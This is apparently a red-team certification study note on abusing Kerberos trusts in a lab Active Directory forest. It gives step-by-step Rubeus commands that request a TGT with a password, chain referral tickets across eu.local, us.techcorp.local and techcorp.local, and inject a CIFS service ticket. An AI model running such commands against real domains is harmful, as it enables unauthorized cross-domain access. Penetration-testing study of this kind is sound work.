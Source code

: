 # Methodology
>1. Request a referral TGT as intended from eu.local to us.techcorp.local (external bidirectional trust)
>2. Request a "local" TGT for us.techcorp.local (service realm - us.techcorp.local) since direct access from eu.local to techcorp.local isn't allowed.
>3. Use the local TGT again to gain another referral TGT for techcorp.local from us.techcorp.local (bidirectional child to forest trust).
>4. Finally, use the resultant referral TGT to gain a TGS for a target service on techcorp.local.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Rubeus
**Request a TGT for the eu\\administrator user:**
```cmd
Rubeus.exe asktgt /user:administrator /password:0h!DomainDomainOnTheNet /nowrap
```

**Request a referral TGT for us.techcorp.local:**
```cmd
Rubeus.exe asktgs /service:krbtgt/us.techcorp.local /dc:eu-dc.eu.local /nowrap /ticket:
```

**Use the above referral TGT to gain a "local" TGT for us.techcorp.local:**
```cmd
Rubeus.exe asktgs /service:krbtgt/us.techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:
```

**Use the "local" TGT now request another referral TGT for techcorp.local:**
```cmd
Rubeus.exe asktgs /service:krbtgt/techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:<"local" TGT>
```

**Request a usable TGS to gain access onto any target service on techcorp.local:**
```cmd
Rubeus.exe asktgs /service:cifs/techcorp-dc.techcorp.local /dc:techcorpdc.techcorp.local /nowrap /ptt /ticket:
```